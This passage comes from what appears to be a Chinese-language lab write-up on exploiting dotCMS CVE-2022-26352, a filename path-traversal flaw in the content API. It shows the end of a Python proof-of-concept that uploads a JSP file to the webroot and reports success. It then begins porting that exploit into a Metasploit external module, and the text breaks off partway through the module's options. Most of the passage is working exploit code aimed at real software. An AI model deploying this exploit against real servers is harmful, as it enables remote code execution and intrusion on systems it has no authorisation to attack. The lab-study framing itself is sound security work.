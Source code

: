         #url = "https://" + args['rhost'] + ":" + args['RPORT'] + "/dotAdmin"
        url = base_url + "/dotAdmin"

        if exploit(base_url,url,files,args) :
            print("Vulnerable")
        else: 
            print("exploit Error")

    if __name__ == '__main__':
        main()
    ```
    * 上傳 `abc.jsp` 成功之截圖
    ![](https://i.imgur.com/mfPMQyA.png)

    
* 在靶機使用 python 確認該 POC 可行，之後在攻擊主機上試著把它改寫為 metasploit external module
    * 將檔案存在`.msf4/modules/auxiliary/scanner/http` 裡面，並命名為 `dotcms_file_upload_rce.py`

    ```python
    #!/usr/bin/env python3

    # standard modules
    from metasploit import module

    # extra modules
    dependencies_missing = False
    try:
        import requests
        import urllib3
        import sys
        import time
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    except ImportError:
        dependencies_missing = True

    metadata = {
        'name': 'DotCMS RCE via Arbitrary File Upload.',
        'description': '''
            When files are uploaded into dotCMS via the content API, but before they become content, dotCMS writes the
              file down in a temp directory.  In the case of this vulnerability, dotCMS does not sanitize the filename
              passed in via the multipart request header and thus does not sanitize the temp file's name.  This allows a
              specially crafted request to POST files to dotCMS via the ContentResource (POST /api/content)  that get
              written outside of the dotCMS temp directory.  In the case of this exploit, an attacker can upload a harmless
              .jsp file to the webapp/ROOT directory of dotCMS.
        ''',
        'authors': [
            'yuting',
        ],
        'date': '2022-07-07',
        'license': 'MSF_LICENSE',
        'references': [
                                    {'type': 'url', 'ref': 'https://github.com/jheysel-r7/metasploit-framework/blob/dotcms_file_upload_rce/modules/exploits/multi/http/dotcms_file_upload_rce.rb'},
            {'type': 'cve', 'ref': '2022-26352'}
        ],
        'type': 'single_scanner',
        'options': {
            'RPORT': {'type': 'int', 'description': 'Target port', 'required': True, 'default': '/'},
